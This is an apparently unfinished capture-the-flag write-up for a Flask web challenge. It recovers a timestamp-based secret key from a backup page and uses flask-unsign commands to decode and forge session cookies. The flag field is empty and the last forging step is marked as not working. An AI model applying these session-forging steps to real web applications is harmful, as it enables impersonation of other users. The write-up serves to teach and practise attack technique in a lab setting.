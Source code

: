 # Thomas DEVerson
All things considered, I'm impressed this website is still up and running 200 years later.

# Flag

# Solution

Viewing source code, there is a `/backup` page:

```
---------- command output: {head -n 10 app.py} ----------

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

---------- command output: {head -n 10 requirements.txt} ----------

Flask==3.0.3
```

See `req.py` to obtain the app secret key:
```
THE_REYNOLDS_PAMPHLET-179708251645
```

Session Manipulation:
```bash
flask-unsign --decode --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.Zk-_xg.1LzY-qUyYbn726AxGD-YZuBrnts'
# {'name': 'guest'}

flask-unsign --sign --cookie "{'name': 'jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-1797082516
45'
# eyJuYW1lIjoiamVmZmVyc29uIn0.Zk_ClQ.7S5B847Pp8I6JgVy7aaiytWQWHc
# not working ^^
```